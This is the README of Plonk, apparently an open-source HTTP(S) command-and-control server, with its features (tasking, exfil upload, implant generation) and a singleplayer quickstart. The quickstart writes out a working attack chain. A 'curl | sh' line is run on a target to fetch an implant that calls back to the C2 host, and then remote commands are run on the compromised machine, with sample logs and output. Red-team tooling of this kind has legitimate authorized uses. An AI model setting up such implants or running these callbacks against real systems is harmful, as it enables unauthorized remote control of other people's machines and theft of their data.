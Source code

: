 Plonk
=====
Plonk is a no-frills HTTP(s)-based C2 server, intended to be very easy to set
up and use but also powerful enough for real, if simple, ops.

### Features
1. Very simple [protocol](./doc/protocol.md) which handles...
   1. [Tasking](./doc/protocol.md#tasking-t)
   2. [Task Output](./doc/protocol.md#output-o)
   3. [Exfil Upload](./doc/protocol.md#exfil-p)
   4. [Implant Generation](./doc/protocol.md#implant-generation-c)
   5. [Static File Serving](./doc/protocol.md#static-files-f)
2. Fairly simple [setup](#singleplayer-quickstart) and
   [configuration](./doc/config.md)
3. Multiplayer-friendly, with reasonably simple
   [setup](./doc/multiplayer.md)
4. [TLS](./doc/tls.md) by default, with [Let's Encrypt](https://letsencrypt.org)
   or a self-signed certificate.  Or both.
5. More than zero [documentation](./doc)

Please see the [changelog](./doc/changelog.md) for a log of changes.

Singleplayer Quickstart
-----------------------
Make sure you have [Go](https://go.dev/doc/install) installed.

```sh
# Install Plonk itself.  This can be done on another host, so long as plonk
# is in PATH on the server or the rest of this section is adjusted accordingly.
go install github.com/magisterquis/plonk@v0.0.1-beta.1
# Did it work?
plonk -v

# Start it going
nohup plonk -server -https-address 0.0.0.0:4433 >/dev/null 2>&1 &
# Or get rid of -https-address and add -letsencrypt-domain for better TLS if a
# domain name is pointed at Plonk.

# Did it work?
ls "$HOME/plonk.d/"                 # Populated directory exists?
# Should see:
#     files  log.json  op.sock  state.json
tail "$HOME/plonk.d/log.json"       # Log looks ok?  tail -f is also neat.
# Log will tell you everything's happy:
#     {"time":"2023-12-29T22:45:27.206057004Z","level":"INFO",
#     "msg":"Server ready","dirname":"/home/h4x/plonk.d"}
curl -svk https://127.0.0.1:4433/c  # Implant generation works?
# Should see a shell script with a couple of
#     curl -k -pinnedpubkey "sha256//..."
# lines, calling back to 127.0.0.1.

# Get a callback
curl -sk https://<plonk>:4433/c | sh  # On target and with a better URL,
                                      # of course.  
                                      # Don't use -k if Plonk was started with
                                      # -letsencrypt-domain
tail -n2 "$HOME/plonk.d/log.json"     # Get the callback?  May need more -n.
# Log should say an implant was generated and something called back, like:
#    {"time":"2023-12-29T22:52:02.235811943Z","level":"INFO",
#     "msg":"Implant generation","parameters":{
      "PubkeyFP":"1oOI5fF7U7bLSVythHfk0COUNvymV0aoWfTT1puBfIk=","RandN":"57i",
#     "URL":"https://[REDACTED]:4433"},"sni":"","host":"[REDACTED]:4433",
#     "method":"GET","remote_address":"[REDACTED]:32260","url":"/c"}
#    {"time":"2023-12-29T22:52:02.280309985Z","level":"INFO",
#     "msg":"New implant","id":"57i-target.my.domain-9924"}

# Interact with the target
plonk  # Connect to the server as an operator
# A nice welcome message should appear
#     ___________________________
#    /     Welcome to Plonk!     \
#    \ Try ,help to get started. /
#     ---------------------------
#            \   ^__^
#             \  (oo)\_______
#                (__)\       )\/\
#                    ||----w |
#                    ||     ||
#    2023/12/29 22:53:26 [OPERATOR] Connected: h4x0r (cnum:1)
#    (plonk)>
,i  # See what's called back
# Should be the same ID as in the log output from above:
#    ID                         From        Last Seen
#    --                         ----        ---------
#    57i-target.my.domain-9924  [REDACTED]  2023-12-29T22:54:42Z (4.939s)
,i 57i-target.my.domain-9924 # Interact with our target, but with the right ID
# Timestamps are handy to work out what happens and when, turns out.
#    2023/12/29 22:58:37 Interacting with 57i-target.my.domain-9924
#    2023/12/29 22:58:37 Use ,l to return to watching Plonk's logs
ps awwwfux  # Run a command on target
# Plonk is HTTP-based; we get notified when the task is queued, send, and run
#    2023/12/29 22:58:42 [TASKQ] Task queued by h4x0r for 57i-target.my.domain-9924 (qlen 1)
#    ps awwwfux
#    2023/12/29 22:58:43 [CALLBACK] Sent task to 57i-target.my.domain-9924 (qlen 0):
#    ps awwwfux
#    2023/12/29 22:58:43 [OUTPUT] From 57i-target.my.domain-9924
#    USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
#    root         1  0.0  0.0   948   104 ??  I      Sat01AM    0:01.01 /sbin/init
#    root     30130  0.0  0.0  1112    24 ??  Ip     Sat01AM    0:00.00 - /sbin/slaacd
#    _slaacd  83001  0.0  0.0  1108    24 ??  Ip     Sat01AM    0:00.00 |-- slaacd: engine (slaacd)
#    _slaacd  55365  0.0  0.0  1128    24 ??  IpU    Sat01AM    0:00.00 `-- slaacd: frontend (slaacd)
#    ...
```

Directory
---------
Plonk's directory (settable with `-dir` at runtime or
[baked-inable](./doc/config.md#compile-time-settable-defaults) with
`-ldflags "-X main.DefaultDir"` at compile time) is where it keeps all of the
files it needs, i.e.:

File/Subdirectory | Description
------------------|------------
`exfil/`          | Exfil sent to [`/p`](./protocol.md#exfil-p)
`files/`          | Static files, accessible via [`/f`](./doc/protocol.md#static-files-f)
`implant.tmpl`    | Optional [implant template](./doc/protocol.md#implant-generation-c)
`index.html`      | Optional default [response body](./doc/config.md#indexhtml)
`log.json`        | Server logs
`op.sock`         | Operator Unix socket, used by Plonk the client
`sate.json`       | Server's persistent state
